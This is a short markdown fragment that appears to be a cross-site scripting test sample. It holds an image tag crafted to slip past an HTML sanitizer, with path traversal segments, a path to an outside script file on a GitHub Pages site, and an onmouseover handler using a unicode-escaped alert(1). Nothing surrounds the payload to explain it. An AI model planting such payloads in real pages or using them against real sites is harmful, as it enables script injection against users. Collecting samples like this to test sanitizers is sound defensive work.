 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt/onmouseover=\u0061lert(1) />



](()
